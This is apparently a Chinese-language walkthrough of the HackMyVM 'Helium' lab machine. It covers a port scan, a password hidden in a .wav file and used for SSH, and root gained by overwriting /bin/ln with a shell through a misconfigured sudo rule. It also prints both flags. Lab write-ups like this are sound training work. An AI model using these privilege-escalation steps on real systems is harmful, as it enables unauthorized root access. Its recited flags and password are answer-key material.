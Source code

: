 # Helium

2024-11-05 https://hackmyvm.eu/machines/machine.php?vm=Helium

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 服务发现是播放音乐，查看源码发现 Please paul, stop uploading weird .wav files using /upload_sound 发现一个用户名 paul ，提示有 /upload_sound 这个路径，访问后提示 disable or not，行不通。

在看其中的 http://192.168.5.40/bootstrap.min.css 源码，发现提示 /yay/mysecretsound.wav 进行访问，是一个音频文件，使用 audacity 进行解析，发现了一串字符：dancingpassyo 应该是一个密码。

使用 paul/dancingpassyo 进行 ssh 登陆成功，得到了 user flag：

```
paul@helium:~$ cat user.txt
ilovetoberelaxed
```

sudo -l 发现 (ALL : ALL) NOPASSWD: /usr/bin/ln 进行利用，得到 root 权限：

```
sudo ln -fs /bin/sh /bin/ln
sudo ln
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
ilovetoberoot
```
